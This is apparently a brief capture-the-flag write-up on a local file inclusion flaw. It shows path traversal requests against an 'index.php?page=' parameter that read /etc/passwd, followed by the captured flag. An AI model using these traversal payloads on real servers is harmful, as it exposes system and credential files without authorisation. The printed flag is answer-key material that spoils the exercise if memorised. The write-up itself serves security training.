 
[Local File Inclusion Vulnerability](https://youtu.be/AALacSN2SRw?list=PLqM63j87R5p77_vK-eL9eFbhz6BJ1Av7r)

u get message indications with each backtrack (../)

`http://IP/index.php?page=../../../../../../../` ==> pops "You can DO it !!!  :]"


`http://IP/index.php?page=../../../../../../../etc/passwd`

Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0